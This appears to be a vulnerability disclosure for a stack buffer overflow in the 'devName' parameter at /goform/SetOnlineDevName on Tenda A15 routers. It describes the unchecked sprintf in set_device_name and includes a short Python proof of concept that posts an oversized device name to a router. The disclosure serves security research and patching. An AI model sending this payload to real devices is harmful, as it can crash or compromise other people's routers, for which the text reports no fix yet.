 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "devName" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the formSetDeviceName function, the devName parameter is obtained via websGetVar and passed to the first parameter of set_device_name

![1703731523270](image/SetOnlineDevName.devname.zh-cn/1703731523270.png)

In the set_device_name function, the dev_name variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform DOS attacks and RCE attacks.

![1703731669271](image/SetOnlineDevName.devname.zh-cn/1703731669271.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x1000
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Trigger details

See video content
<video src="https://raw.githubusercontent.com/yaoyue123/iot/main/Tenda/A15/devname.mp4" width="640" height="480" controls></video>

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
